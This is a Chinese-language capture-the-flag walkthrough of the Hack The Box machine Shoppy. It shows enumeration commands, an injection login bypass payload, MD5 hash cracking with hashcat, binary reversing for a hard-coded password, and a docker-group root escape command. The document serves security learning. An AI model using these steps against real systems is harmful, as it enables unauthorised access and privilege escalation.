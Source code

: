 ﻿# 开始


![在这里插入图片描述](https://img-blog.csdnimg.cn/8de6802c484740acb3bcb4c8e91e4c1b.png)

网址：
```
https://app.hackthebox.com/machines/Shoppy
```
# 信息搜集
使用nmap扫描ip
```
nmap -sC -sV -p- 10.10.11.180
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b88e6b911e17464cbb27402d956afd71.png)


根据扫描结果，发现了一个域名，我们需要本地dns解析这个域名
```
echo "10.10.11.180 shoppy.htb" >> /etc/hosts
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/db0dff40bd914b30afb7b2a1e5d377ea.png)
# 网站信息收集
我们需要安装一个字典
```
apt install seclists
```

然后枚举网站的目录
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 100 -mc 200,302,301 -u http://shoppy.htb/FUZZ
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/42eb37d0b0e94aa0b4b4fc70483b812f.png)

发现了后台什么的，我们去浏览器页面看看


![在这里插入图片描述](https://img-blog.csdnimg.cn/ea9739c346144ea7b4c755829a63861a.png)

我尝试了一下万能密码，没想到成功了
```
admin'||'1==1
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/e1eed2c63e594e55a39051a6307f97a0.png)

登录后台后，右上角有一个搜索用户的图标，我们继续输入万能密码试试

![在这里插入图片描述](https://img-blog.csdnimg.cn/6319fe01590443d39c67205d4c015061.png)


按下回车后有一个下载的图标

![在这里插入图片描述](https://img-blog.csdnimg.cn/2369c24750fc4621ac6528579b23741c.png)


![在这里插入图片描述](https://img-blog.csdnimg.cn/3ffe9a59a4904b33816aad2a175f760e.png)



这里找到了两个账户密码的hash值，然后我用hashcat爆破，发现admin爆不出来，而josh用户的可以
```
echo "6ebcea65320589ca4f2f1ce039975995" > hash
hashcat -m 0 hash /usr/share/wordlists/rockyou.txt
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2765c1e542fb49448761c3a423f242c1.png)

我之前爆破过，这里就直接出现密码了，我用这个用户名和密码登录ssh，发现不对，可能还有哪里的信息搜集没做完，这里的用户名和密码可能是另一个网站的，我们可以枚举一下网站的子域名
```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 -u shoppy.htb
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/481697b7834e4e6284e5b765503cc39a.png)

这里找到一个子域名，我们将他也解析一下
```
echo "10.10.11.180 mattermost.shoppy.htb" >> /etc/hosts
```



![在这里插入图片描述](https://img-blog.csdnimg.cn/3d24615fcd07472aaa54be1133a71d54.png)

然后去浏览器里看看



![在这里插入图片描述](https://img-blog.csdnimg.cn/30610b1e3a5e4b28b5aa269c6cd4c99c.png)

发现了一个登录的页面，我们输入之前爆破的用户名和密码试试


![在这里插入图片描述](https://img-blog.csdnimg.cn/500a365fe3c54681ab8c102ddefe7ca4.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/baa39d11d6ec4e97a3c8b157908bb741.png)

# 获取用户权限
成功登录，在这里可以发现ssh的账号和密码，我们ssh登录试试
```
ssh jaeger@10.10.11.180
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/e53fece169cd44e7953f43a4b5111f4b.png)


# 获取root权限

## 文件静态分析
```
sudo -l
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/f588e1199e5140ebb037fb03f71e3f14.png)

我检查了一下当前用户可以使用sudo命令执行什么，发现了一个奇怪的文件，我们将这个文件下载到kali里
注意，这里需要移动到文件的目录里
```
python3 -m http.server 1234
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/5cb9312152534f4b9c998087aa8d17b8.png)

然后用kali下载这个文件
```
wget http://10.10.11.180:1234/password-manager
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/6d06f8df2f3c4307b9895b05d86ee87e.png)

获取文件信息
```
file password-manager
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/751a959cfc1a422cbd7f3954199fffa0.png)

这是一个64位的可执行文件，然后用radare2静态分析这个程序
```
r2 password-manager
```
然后输入指令，定位到主函数地址
```
aaa  //自动分析并命名函数
afl  //查看程序内的函数
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/8f3ecc4dd08445cbb7c369ae81067e57.png)


这里找到了main函数，然后去到main函数的地址并查看汇编代码
```
s main  //定位到main函数地址
pdf  //查看当前函数的汇编代码
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/d98582bd3e5e496996289b7699481675.png)

这是一个c++写的程序，运行程序的之后会输出Welcome to Josh password manager!字符串

![在这里插入图片描述](https://img-blog.csdnimg.cn/b24a7cb59810477eb1f0e10224691f3a.png)

然后输出Please enter your master password:字符串，并接受我们的输入

![在这里插入图片描述](https://img-blog.csdnimg.cn/f0a68521173a4af7a9104691c82f1a7c.png)

在下面，程序会和我们输入的字符和Sample字符一个一个的做对比

![在这里插入图片描述](https://img-blog.csdnimg.cn/b2d6f3f9527f4934af147233f3016bab.png)


我们输入的字符串是Sample后，会输出Access granted! Here is creds !字符串，表示我们输入正确，然后会执行一个系统命令，查看/home/deploy/creds.txt文件内容

用ida查看文件，也和我们分析的一样

![在这里插入图片描述](https://img-blog.csdnimg.cn/dd96b96fa55f4b628414b20af21d7449.png)


回到靶机，运行程序，输入Sample
```
sudo -u deploy ./password-manager
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/f983895f3e9046bbbdbee5145c1187dd.png)
## docker越权提权

我们获得了deploy用户的账号和密码，然后切换账号
```
su deploy
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/4c92724e60c34c76b4a12c2f6b8cfbb7.png)

在输入id的时候，发现了这个用户在docker组里

![在这里插入图片描述](https://img-blog.csdnimg.cn/358c54c2204744a185ff6e473a187a01.png)

去到这个网站，ctrl+f搜索docker
```
https://gtfobins.github.io/
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/99e97ccb0193473d8f41e76bfb32483d.png)


![在这里插入图片描述](https://img-blog.csdnimg.cn/a241af686535441d9d0274be58dff494.png)

输入此命令，即可获得root shell
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![**加粗样式**](https://img-blog.csdnimg.cn/420f5a17142147e8ad5bba58f27ee535.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/ed33b24155e043bf9df00387aeb9f786.png)

